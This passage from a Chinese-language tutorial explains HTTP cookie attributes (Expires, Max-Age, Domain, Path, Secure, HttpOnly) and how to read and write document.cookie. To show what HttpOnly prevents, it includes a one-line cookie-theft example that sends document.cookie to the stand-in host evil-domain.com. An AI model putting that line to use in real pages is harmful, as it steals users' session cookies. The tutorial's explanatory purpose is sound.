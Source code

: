如果不设置该属性，或者设为null，Cookie 只在当前会话（session）有效，浏览器窗口一旦关闭，当前 Session 结束，该 Cookie 就会被删除。另外，浏览器根据本地时间，决定 Cookie 是否过期，由于本地时间是不精确的，所以没有办法保证 Cookie 一定会在服务器指定的时间过期。

Max-Age属性指定从现在开始 Cookie 存在的秒数，比如`60 * 60 * 24 * 365`（即一年）。过了这个时间以后，浏览器就不再保留这个 Cookie。

如果同时指定了Expires和Max-Age，那么Max-Age的值将优先生效。

如果Set-Cookie字段没有指定Expires或Max-Age属性，那么这个 Cookie 就是 Session Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 Cookie。

### 2. Domain，Path

Domain属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 Cookie。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 Cookie。比如，example.com不设置 Cookie 的domain属性，那么sub.example.com将不会附带这个 Cookie。如果指定了domain属性，那么子域名也会附带这个 Cookie。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 Cookie。

Path属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，Path属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，PATH属性是/，那么请求/docs路径也会包含该 Cookie。当然，前提是域名必须一致。

### 3. Secure，HttpOnly

Secure属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的Secure属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。

HttpOnly属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是document.cookie属性、XMLHttpRequest对象和 Request API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。

```cookie
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的HttpOnly属性，上面代码就不会读到该 Cookie。

## document.cookie

document.cookie属性用于读写当前网页的 Cookie。

读取的时候，它会返回当前网页的所有 Cookie，前提是该 Cookie 不能有HTTPOnly属性。

```cookie
document.cookie // "foo=bar;baz=bar"'
```

上面代码从document.cookie一次性读出两个 Cookie，它们之间使用分号分隔。必须手动还原，才能取出每一个 Cookie 的值。

```cookie
var cookies = document.cookie.split(';');

for (var i = 0; i < cookies.length; i++) {
  console.log(cookies[i]);
}
// foo=bar
// baz=bar
```

document.cookie属性是可写的，可以通过它为当前网站添加 Cookie。

```cookie
document.cookie = 'fontSize=14';
```
